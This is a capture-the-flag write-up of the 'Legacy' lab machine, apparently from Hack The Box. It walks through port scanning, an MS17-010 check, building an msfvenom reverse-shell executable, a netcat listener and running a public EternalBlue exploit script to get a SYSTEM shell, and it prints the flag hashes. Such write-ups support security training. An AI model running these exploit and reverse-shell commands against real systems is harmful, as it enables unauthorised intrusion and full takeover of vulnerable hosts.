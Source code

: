 # Legacy
## Reconnaissance

* Performed TCP scans using Masscan before extracting open ports for Nmap to conduct in-depth scans on services and OS. (Did not include UDP and other TCP scans)
```
sudo masscan -p1-65535 10.10.10.4 --rate=1000 -e tun0 > ports && ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//') && nmap -Pn -sV -sC -A -p$ports 10.10.10.4
```
* The results of the Masscan and Nmap show that port 139 and 445 are open. Target machine OS is Windows XP.

```
PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
Host script results:
|_clock-skew: mean: -3h52m55s, deviation: 1h24m50s, median: -4h52m55s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:89:0e (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-11-04T01:41:30+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

* Testing SMB vulnerability. Machine is vulnerable to MS17-010.
```
nmap --script smb-vuln-ms17-010 -p 139,445 10.10.10.4 -Pn
```
```
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx`
```
## Weaponization
* Used msfvenom to create a reverse shell executable

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 EXITFUNC=thread -f exe -a x86 -o reverse_shell.exe
```
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse_shell.exe
```

## Exploitation
* Set up netcat to listen on port 4444
```
nc -nvlp 4444
```
```
listening on [any] 4444 ...
```

* Download the send_and_execute.py script from [helviojunior](https://github.com/helviojunior/MS17-010)

```
python /home/kali/send_and_execute.py 10.10.10.4 reverse_shell.exe 
```

```
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8201d2b8
SESSION: 0xe1202c18
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1b11370
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1b11410
overwriting token UserAndGroups
Sending file 999947.exe...
Opening SVCManager on 10.10.10.4.....
Creating service CsKT.....
Starting service CsKT.....
The NETBIOS connection with the remote host timed out.
Removing service CsKT.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```
* If you encounter dependency issues with python SMB module, try the following:
```
pip install pysmb
```

* Reverse Shell obtained with Admin Privileges
```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.4] 1055
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>ipconfig /all
ipconfig /all

Windows IP Configuration

        Host Name . . . . . . . . . . . . : legacy
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : 
        Description . . . . . . . . . . . : AMD PCNET Family PCI Ethernet Adapter
        Physical Address. . . . . . . . . : 00-50-56-B9-89-0E
        Dhcp Enabled. . . . . . . . . . . : No
        IP Address. . . . . . . . . . . . : 10.10.10.4
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 10.10.10.2
        DNS Servers . . . . . . . . . . . : 10.10.10.2

C:\WINDOWS\system32>type C:\Docume~1\Administrator\Desktop\root.txt
type C:\Docume~1\Administrator\Desktop\root.txt
993442d258b0e0ec917cae9e695d5713
C:\WINDOWS\system32>type C:\Docume~1\John\Desktop\user.txt
type C:\Docume~1\John\Desktop\user.txt
e69af0e4f443de7e36876fda4ec7644f
```

* Unable to determine the exact user logged in.
```
C:\WINDOWS\system32>echo %Username%          
echo %Username%                                         
%Username%
```

* Used send_and_execute.py to send whoami.exe over to target machine. Confirmed that we are NT AUTHORITY\SYSTEM.
```
python /home/kali/send_and_execute.py 10.10.10.4 /usr/share/windows-resources/binaries/whoami.exe
```

```
 Directory of C:\

04/11/2020  02:25             73.802 999947.exe
03/11/2020  06:24             73.802 9VMU9B.exe
16/03/2017  07:30                  0 AUTOEXEC.BAT
04/11/2020  02:44             66.560 AWHELA.exe
16/03/2017  07:30                  0 CONFIG.SYS
16/03/2017  08:07     <DIR>          Documents and Settings
03/11/2020  06:44             73.802 FPQO1X.exe
03/11/2020  02:46             73.802 JGKOXR.exe
16/03/2017  07:33     <DIR>          Program Files
16/03/2017  07:33     <DIR>          WINDOWS
03/11/2020  02:37             73.802 XX1YFZ.exe
               8 File(s)        435.570 bytes
               3 Dir(s)   6.484.676.608 bytes free

C:\>AWHELA.exe
AWHELA.exe
NT AUTHORITY\SYSTEM
```



